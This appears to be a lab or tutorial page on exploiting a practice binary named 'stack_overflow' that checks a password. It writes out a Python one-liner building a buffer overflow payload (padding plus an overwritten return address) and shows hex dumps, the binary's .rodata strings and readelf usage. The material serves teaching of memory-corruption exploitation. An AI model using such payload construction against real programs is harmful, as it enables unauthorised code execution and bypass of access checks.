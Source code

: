 Output hexidecimal file content:
```bash
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*61 + b'\x0e\xe5\xff\xff\xff\x7f\x00\x00' + b'\n')" > exploit.in
$ hexdump exploit.in 

0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 0e41 ffe5
0000040 ffff 007f 0a00                         
0000046

```

Hexidecimal binary file view:
```bash
$ xxd stack_overflow

00000000: 7f45 4c46 0201 0100 0000 0000 0000 0000  .ELF............
00000010: 0300 3e00 0100 0000 e010 0000 0000 0000  ..>.............
00000020: 4000 0000 0000 0000 d036 0000 0000 0000  @........6......
00000030: 0000 0000 4000 3800 0d00 4000 1f00 1e00  ....@.8...@.....
00000040: 0600 0000 0400 0000 4000 0000 0000 0000  ........@.......
00000050: 4000 0000 0000 0000 4000 0000 0000 0000  @.......@.......
00000060: d802 0000 0000 0000 d802 0000 0000 0000  ................
00000070: 0800 0000 0000 0000 0300 0000 0400 0000  ................
00000080: 1803 0000 0000 0000 1803 0000 0000 0000  ................
00000090: 1803 0000 0000 0000 1c00 0000 0000 0000  ................
000000a0: 1c00 0000 0000 0000 0100 0000 0000 0000  ................
000000b0: 0100 0000 0400 0000 0000 0000 0000 0000  ................
000000c0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000d0: 8806 0000 0000 0000 8806 0000 0000 0000  ................
000000e0: 0010 0000 0000 0000 0100 0000 0500 0000  ................
000000f0: 0010 0000 0000 0000 0010 0000 0000 0000  ................
00000100: 0010 0000 0000 0000 d901 0000 0000 0000  ................
00000110: d901 0000 0000 0000 0010 0000 0000 0000  ................
00000120: 0100 0000 0400 0000 0020 0000 0000 0000  ......... ......
```

Show content of rodata section:
```bash
$ objdump -s -j .rodata stack_overflow

stack_overflow:     file format elf64-x86-64

Contents of section .rodata:
 2000 01000200 456e7465 72206120 70617373  ....Enter a pass
 2010 776f7264 3a200025 73005355 43434553  word: .%s.SUCCES
 2020 53004641 494c4544 00456e74 65726564  S.FAILED.Entered
 2030 20706173 73776f72 643a2000 52657175   password: .Requ
 2040 69726564 20706173 73776f72 643a2000  ired password: .
```

Get a lot of information about elf binary:
```bash
$ readelf -a stack_overflow
```
